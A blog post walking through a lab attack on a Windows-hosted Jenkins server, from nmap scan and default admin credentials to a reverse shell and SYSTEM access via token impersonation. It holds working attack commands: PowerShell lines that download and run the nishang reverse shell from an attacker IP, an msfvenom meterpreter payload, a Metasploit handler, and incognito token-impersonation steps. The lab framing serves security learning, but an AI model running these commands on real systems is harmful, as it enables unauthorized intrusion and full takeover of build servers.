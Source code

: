 ```yaml
---
title: "jenkins"
date: 2022-01-08T14:37:40-05:00
draft: false
---
```


if you've worked in any sort of SaaS/tech company, odds are you've used a CI/CD (continuous integration/continuous delivery and deployment) and DevOps tool. CI/CD is a method used to deliver apps to customers and clients by introducing automation into the stages of app development. it allows orgs to ship software "quickly" and "efficiently" (i used scare quotes because...well, if you've worked in a software company you'll know why). i'm going to see if i can try to exploit a common security misconfiguration on one of these tools, jenkins, then try to escalate privilege to get full system access.


## the difference between CI and CD

**CI**: involves devs making small changes and checks to their code. the scale of these changes can be huge so the process is automated to ensure that teams can build, test, and package their apps in a reliable way. CI can also help to streamline code changes.

**CD (continuous delivery)**: this is the automated delivery of completed code to environments like testing and development. 

**CD (continuous deployment)**: every change that passes the automated tests is automatically placed in production, resulting in many production deployments. this is the ultimate goal of many companies, given they're not constrained by regulatory or compliance requirements. 

![cicd](/cicd.png)


## jenkins

jenkins is an open-source CI/CD automation software, written in java. it's used to implement CI/CD workflows, called pipelines. 

pipelines automate testing and reporting on isolated changes in a larger code base (in real time) and facilitates integration of disparate branches of code into a main branch. pipelines also rapidly detect defects in a code base, build the software, automate testing of builds, prepare code base for deployment/delivery, and ultimately deploy code to containers and virtual machines (as well as bare metal and cloud servers). 


for this experiment, i've spin up a windows VM that hosts the jenkins instance, and try to attack it from my kali VM. 

once everything is set up, let's start with a simple nmap scan of the target machine.

```
nmap -sT -Pn -v 10.10.77.68
```

![nmap](/jenkins-nmap.png)

the service at port 8080 is the jenkins server. to visit it, simply enter http://10.10.77.68:8080. at the login page, i'll enter my credentials (admin:admin) [note: default credentials for jenkins are usually admin:password or admin:admin] and be taken to the jenkins dashboard. there you'll see a "project" that was created just for this experiment.

![dashboard](/jenkins-dashboard.png)


since this is a windows application, i'll use the [nishang](https://github.com/samratashok/nishang) repo for a script, more specifically [this](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) reverse shell script. nishang also contains a whole bunch of scripts for initial access, enumeration, and privesc so check them all out if you'd like. 

in kali, i created a directory to download the script to.

```
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```

now let's create a simple web server so that this script can be downloaded into jenkins.

```
python -m SimpleHTTPServer 80
```


back in jenkins, if you click "project" > configure > build, you'll see a command box that lets you execute any command. 

![build](/jenkins-build.png)

first, start a netcat listener in kali.

```
nc -lvnp 9001
```

in the jenkins command box, enter the following command to download the powershell script to the target. remember to use the address of the HTTP server that was created.

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.9.4.75:80/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.9.4.75 -Port 9001
```

save the build, then click "build now" from the project page. the netcat listener will receive a connection to the target.

![netcat](/jenkins-netcat.png)


to make privesc easier, it's better to switch to a meterpreter shell.

first, create an msfvenom payload in the same directory we saved the powershell script to.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.9.4.75 LPORT=9002 -f exe -o jenkins.exe
```

download it to the machine similar to how we did it before, via the HTTP server and the build command box.

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.4.75:8000/jenkins.exe','jenkins.exe')"
```

save this build, but before building, let's create a handler in metasploit to receive the connection.

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.9.4.75
set LPORT 9002
run
```

back in jenkins, once you build and the payload has been downloaded to target, in the msfconsole shell type the following to get the meterpreter shell.

```
Start-Process "jenkins.exe"
```


## token impersonation to gain system access

windows uses tokens to ensure accounts have the right privileges to carry out certain actions. tokens are assigned to an account when users log in or when they're authenticated. this is usually done by ```LSASS.exe```, generates the process responsible for authenticating users for the WINLOGON service. this is performed by using authentication packages like ```msgina.dll```. 

once authentication is successful, LSASS generates the user's access token, which is used to launch the initial shell. other processes the user initiates then inherit this token.

the user's access token consists of: user SIDs, group SIDs, privileges. you can read more about access tokens [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens).

there are 2 types of access tokens:
1. primary access tokens: associated with a user account, generated on log on
2. impersonation tokens: allow a particular process to use the token of another

the different levels of impersonation tokens:
- **SecurityAnonymous**: current user/client cannot impersonate another user/client
- **SecurityIdentification**: current user/client can get the identity and privileges of a client, but cannot impersonate the client
- **SecurityImpersonation**: current user/client can impersonate the client's security context on the local system
- **SecurityDelegation**: current user/client can impersonate the client's security context on a remote system

security context refers to the data structure that contain users' relevant security information.

privileges of an account allow the user to carry out particular actions. 
the most commonly abused privileges are:
- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

you can read more about them [here](https://www.exploit-db.com/papers/42556).


back in the meterpreter shell, we can check privs easily.

```
whoami /priv
```

2 privileges should show up: SeDebugPrivilege and SeImpersonatePrivilege. let's use incognito mode to exploit this.

```
load incognito
```

to check which tokens are available to us:
```
list_tokens -g
```

the token **BUILTIN\Administrators** is available. impersonating it should be easy.

```
impersonate_token "BUILTIN\Administrators"
```

it's good practice to double check privileges. 

```
getuid
```

although we now have a higher privilege token, we may not actually have higher privilege permissions. windows uses a primary token of the process and not the impersonated token to determine what the process can do. so, we just migrate to a process with correct permissions. the safest process to pick is usually ```services.exe```.

```
ps
migrate <PID>
```

we've now migrated to an elevated process using its process ID (PID).


so, there it is. we exploited jenkins to further exploit security misconfigurations to get root access on the target system. pretty cool!











